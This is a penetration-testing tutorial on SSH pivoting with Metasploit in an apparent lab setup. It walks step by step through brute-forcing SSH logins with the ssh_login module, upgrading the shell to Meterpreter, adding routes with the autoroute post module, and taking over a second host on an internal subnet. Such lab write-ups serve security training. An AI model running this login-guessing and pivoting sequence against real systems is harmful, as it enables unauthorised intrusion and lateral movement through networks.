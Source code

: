 # SSH pivoting using Meterpreter

**Pivoting** is a technique to get inside an unreachable network with help of pivot \(center point\). In simple words, it is an attack through which an attacker can exploit that system which belongs to the different network. For this attack, the attacker needs to exploit the main server that helps the attacker to add himself inside its local network and then the attacker will able to target the client system for the attack.

![](https://i0.wp.com/3.bp.blogspot.com/-cYra6fZLKPA/Wc9AJJBSyrI/AAAAAAAARuI/lEBrXV6j1boVWTMXvtHf24zm6lgYnz8TgCLcBGAs/s1600/ssh.png?w=687&ssl=1)

This module will test ssh logins on a range of machines and report successful logins. If you have loaded a database plugin and connected to a database this module will record successful logins and hosts so you can track your access.msf &gt; use auxiliary/scanner/ssh/ssh\_login  
msf auxiliary\(ssh\_login\) &gt; set rhosts 192.168.0.109  
msf auxiliary\(ssh\_login\) &gt; set username raj  
msf auxiliary\(ssh\_login\) &gt; set password 123  
msf auxiliary\(ssh\_login\) &gt; exploit

| 12345 | msf &gt; use auxiliary/scanner/ssh/ssh\_loginmsf auxiliary\(ssh\_login\) &gt; set rhosts 192.168.0.109msf auxiliary\(ssh\_login\) &gt; set username rajmsf auxiliary\(ssh\_login\) &gt; set password 123msf auxiliary\(ssh\_login\) &gt; exploit |
| :--- | :--- |


From the given image you can observe that command shell **session 1** opened

![](https://i2.wp.com/3.bp.blogspot.com/-RGpwRHda6Jc/WZHOludI1cI/AAAAAAAAQ4U/0JQ2pyFRVUc4ILV-LkGRju7VV9VPjoSKACLcBGAs/s1600/1.png?w=687&ssl=1)

Now convert command shell into the meterpreter shell through the following commandsessions –u 1

| 1 | sessions –u 1 |
| :--- | :--- |


From the given image you can observe that **Meterpreter session 2** openedsessions

| 1 | sessions |
| :--- | :--- |


 ****Hence if you will count then currently attacker has hold 2 sessions, **1st** for **command shell** and **2nd** for **the meterpreter shell** of the SSH server.

![](https://i1.wp.com/2.bp.blogspot.com/-ISwbDHS6e9o/WZHOlnaF57I/AAAAAAAAQ4Y/3IIB2OgY_bwh8soBnkwrHiXIldXAVPpmgCLcBGAs/s1600/2.png?w=687&ssl=1)

Check network interface using **ifconfig** command

From the given image you can observe two network interface in the victim’s system **1st** for IP **192.168.0.109** through which the attacker is connected and **2nd** for IP **192.168.10.1** through which SSH client \(targets\) is connected.

![](https://i0.wp.com/1.bp.blogspot.com/-LV1_xBZ4Xo4/WZHOmpxbv2I/AAAAAAAAQ4g/6uui7OIF14UxqxhYOeDlDTDNuIjU-HLhgCLcBGAs/s1600/3.png?w=687&ssl=1)

Since the attacker belongs to **192.168.0.1** interface and client belongs to **192.168.10.0** interface, therefore, it is not possible to directly make an attack on client network until unless the attacker acquires the same network connection. In order to achieve 192.168.10.0 network attacker need to run the **post exploitation** “autoroute”.

This module manages session routing via an existing Meterpreter session. It enables other modules to ‘pivot’ through a compromised host when connecting to the named NETWORK and SUBMASK. Autoadd will search a session for valid subnets from the routing table and interface list then add routes to them. The default will add a default route so that all TCP/IP traffic not specified in the MSF routing table will be routed through the session when pivoting.msf &gt; use post/multi/manage/autoroute   
msf post\(autoroute\) &gt; set subnet 192.168.10.0  
msf post\(autoroute\) &gt; set session 2  
msf post\(autoroute\) &gt; exploit

| 1234 | msf &gt; use post/multi/manage/autoroute msf post\(autoroute\) &gt; set subnet 192.168.10.0msf post\(autoroute\) &gt; set session 2msf post\(autoroute\) &gt; exploit |
| :--- | :--- |


![](https://i0.wp.com/2.bp.blogspot.com/-ZkbWiQab364/WZHOm8ga0CI/AAAAAAAAQ4k/izvzlWYh4kk1inSEkKg5XeB2ovv6OP11gCLcBGAs/s1600/4.png?w=687&ssl=1)

This time we are exploiting **SSH ignite** \(local client\) therefore we are going to use the same module for it that had used above for SSH raj, only need to change information inside exploit.msf &gt; use auxiliary/scanner/ssh/ssh\_login  
msf auxiliary\(ssh\_login\) &gt; set rhosts 192.168.10.2  
msf auxiliary\(ssh\_login\) &gt; set username ignite  
msf auxiliary\(ssh\_login\) &gt; set password 1234  
msf auxiliary\(ssh\_login\) &gt; exploit

| 12345 | msf &gt; use auxiliary/scanner/ssh/ssh\_loginmsf auxiliary\(ssh\_login\) &gt; set rhosts 192.168.10.2msf auxiliary\(ssh\_login\) &gt; set username ignitemsf auxiliary\(ssh\_login\) &gt; set password 1234msf auxiliary\(ssh\_login\) &gt; exploit |
| :--- | :--- |


 ****From given image, you can see another **command shell 3** opened if you will count then total attack has hold 3 sessions, two for SSH server and one for the SSH client.sessions

| 1 | sessions |
| :--- | :--- |


1. Command shell for SSH raj \(192.168.0.109:22\)
2. Meterpreter shell for SSH raj \(192.168.0.109\)
3. Command shell for SSH ignite \(192.168.10.2:22\)

![](https://i1.wp.com/1.bp.blogspot.com/-m965kFVb2tc/WZHOm4e21mI/AAAAAAAAQ4o/Zy4CZmFc7YUOku3smI6OaLFWgsYddsuQACLcBGAs/s1600/5.png?w=687&ssl=1)

| 1 | sessions 3 |
| :--- | :--- |


Now attacker is command shell of SSH ignite \(client\), let’s verify through network configuration.ifconfig

| 1 | ifconfig |
| :--- | :--- |


From given, you can observe the network IP is **192.168.10.2**

\*\*\*\*

